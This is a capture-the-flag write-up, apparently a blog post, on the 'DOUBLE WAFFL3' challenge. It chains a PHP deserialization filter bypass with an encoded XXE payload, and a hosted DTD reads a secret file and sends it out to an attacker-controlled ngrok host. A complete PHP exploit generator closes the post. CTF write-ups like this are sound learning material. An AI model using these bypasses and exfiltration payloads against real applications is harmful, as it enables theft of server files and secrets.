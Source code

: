 ```yaml
---
layout: default
title:  "DOUBLE WAFFL3"
date:   2022-03-08 12:47:20 -0500
categories: jekyll update
permalink: /double-waffle/
---
```

## Introduction

In this challenge we will take advantage of PHP deserialization attack to send our XXE payload through HTTP Cookies, But first we have to Bypass 2 WAFS! let’s get started. 

### Code Analysis
**_index.php_** 
We can see below a new object is defined of type _XmlParserModel_ passing to it the _.env_ file, we will get back to this class later. The interesting part here is were the application defines a cookie of type _UserModel_, moving forward it serializes the cookie and sends it back the the user as shown below.
```php
new XmlParserModel(file_get_contents('.env'));

if (empty($_COOKIE['PHPSESSID']))
{
    $user = new UserModel;
    $user->username = substr(uniqid('guest_'), 0, 10);
    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($user)), 
        time()+60*60*24, 
        '/'
    );
}
```
Two different routes are defined within the application
**_index.php_** 
```php 
$router = new Router();

$router->new('GET', '/', fn($router) => $router->view('menu'));
$router->new('POST', '/api/order', 'OrderController@order');
```
**POST** requests to _/api/order_ route calls the _order(_) function from its  _OrderController.php_ module, let’s check it out.
**_OrderController.php_** 
```php 
class OrderController
{
    public function order($router)
    {
        $body = file_get_contents('php://input');
        $cookie = base64_decode($_COOKIE['PHPSESSID']);
        safe_object($cookie);
        $user = unserialize($cookie);
```
Now Let’s take a look into the _safe_object()_ function 
**_OrderController.php_** 
```php 
function safe_object($serialized_data)
{
    $matches = [];
    $num_matches = preg_match_all('/(^|;)O:\d+:"([^"]+)"/', $serialized_data, $matches);

    for ($i = 0; $i < $num_matches; $i++) {
        $methods = get_class_methods($matches[2][$i]);
        foreach ($methods as $method) {
            if (preg_match('/^__.*$/', $method) != 0) {
                die("Unsafe method: ${method}");
            }}}}
```
So what this function does briefly is that it takes the serialized payload and uses regex to search for the occurrences of `o:<some number>:"<class name>"`, extracts the class name, and calls **get_class_methods()** function to check for all functions of a class, iterates over them, if a PHP magic method such as **constructor**, **wakeup** .. etc is found, it will match the second regex, thus the application will call **die()** to end the application. 

Before trying to bypass the WAF, we have to build our PHP gadget, we have to find a useful class that uses any magic methods. 

**_XmlParserModel.php_**
```php 
 <?php
class XmlParserModel
{
    private string $data;
    private array $env;

    public function __construct($data)
    {
      
        $this->data = $data;
    }

    public function __wakeup()
    {
        if (preg_match_all("/<!(?:DOCTYPE|ENTITY)(?:\s|%|&#[0-9]+;|&#x[0-9a-fA-F]+;)+[^\s]+\s+(?:SYSTEM|PUBLIC)\s+[\'\"]/im", $this->data))
        {
            die('Unsafe XML');
        }
        $env = @simplexml_load_string($this->data, 'SimpleXMLElement', LIBXML_NOENT);

        if (!$env) 
        {
            die('Malformed XML');
        }

        foreach ($env as $key => $value)
        {
            $_ENV[$key] = (string)$value;
        }
    }

}
```
 
As we can see above, this class uses  **__wakeup()**, and uses regex again to check for malicious XXE payload, it filters the occurrence of **<!ENTITY file SYSTEM "file:///path/to/file">**. if a match is found, the application is suspended, else it will parse the XML.
### Building the exploit 
In order to build our exploit, we have to create a new serialized object of type **_XmlParserModel_** and set the **$data** to XXE payload that reads the flag, but first let’s bypass the **_safe_object()_**

### KILL WAF #1
Inspired from the [Composr CMS Remote Code Execution](https://github.com/MegadodoPublications/exploits/blob/master/composr.md), We can easily bypass the poor regex by defining an array object with a string of value **";O:2:"** at index 0, then passing our malicious object to the next index.
For example, In the payload below, the regex will match **;O:10**, as if it’s a class name, bypassing the **_get_class_methods()_**
```markdown 
// a:1:{s:5:";O:2:";O:10:"HelloWorld":0:{}};
//           ^           ^
// match   begin        end
```
### KILL WAF #2 
The XXE WAF can be bypassed through HTML encoding our malicious crafted entity, but to make things easier, we will exfiltrate data through an out-of-band OBB channel using HTTP by utilizing parameter entities, we will use **<!ENTITY % dtd SYSTEM "http://attackerserver.com/malc.dtd" >** to refer to a DTD defined and hosted on our remote server, and that’s for the purpose of bypassing the regex once only. 
We can now craft our payload and save it into a file, then host it. 

**_malc.dtd_** 
```xml 
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/secret">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://8cda-188-247-74-33.ngrok.io/bypass.xml?%data;'>">
%abt; 
``` 
Now creating our XXE payload, First let’s define our private entity to import the remote the DTD. 
```xml 
<!ENTITY % dtd SYSTEM "http://8cda-188-247-74-33.ngrok.io/malc.dtd" > 
``` 
HTML encoding is equivalent to:  
```markdown
&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;
&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;
&#x54;&#x45;&#x4d;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;
&#x3a;&#x2f;&#x2f;&#x38;&#x63;&#x64;&#x61;&#x2d;&#x31;
&#x38;&#x38;&#x2d;&#x32;&#x34;&#x37;&#x2d;&#x37;&#x34;
&#x2d;&#x33;&#x33;&#x2e;&#x6e;&#x67;&#x72;&#x6f;&#x6b;
&#x2e;&#x69;&#x6f;&#x2f;&#x6d;&#x61;&#x6c;&#x63;&#x2e;
&#x64;&#x74;&#x64;&#x22;&#x20;&#x3e;
```
Inject the entity into the DOCTYPE: 
```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % a "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x38;&#x63;&#x64;&#x61;&#x2d;&#x31;&#x38;&#x38;&#x2d;&#x32;&#x34;&#x37;&#x2d;&#x37;&#x34;&#x2d;&#x33;&#x33;&#x2e;&#x6e;&#x67;&#x72;&#x6f;&#x6b;&#x2e;&#x69;&#x6f;&#x2f;&#x6d;&#x61;&#x6c;&#x63;&#x2e;&#x64;&#x74;&#x64;&#x22;&#x20;&#x3e;" >
  %a; 
  %dtd;
]>
<data><env>&exfil;</env></data>
``` 
 
## Final Exploit  
Our final exploit will look like  
```php 
  <?php

class XmlParserModel { 

	public function __construct($data)
    {	

    	$this->data = $data; 
    } 

}
$exploit = serialize([";O:2:" => new XmlParserModel('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x38;&#x63;&#x64;&#x61;&#x2d;&#x31;&#x38;&#x38;&#x2d;&#x32;&#x34;&#x37;&#x2d;&#x37;&#x34;&#x2d;&#x33;&#x33;&#x2e;&#x6e;&#x67;&#x72;&#x6f;&#x6b;&#x2e;&#x69;&#x6f;&#x2f;&#x6d;&#x61;&#x6c;&#x63;&#x2e;&#x64;&#x74;&#x64;&#x22;&#x20;&#x3e;" >%a;%dtd;]><data><env>&exfil;</env></data>')]);
echo base64_encode($exploit); 
 
?>
``` 
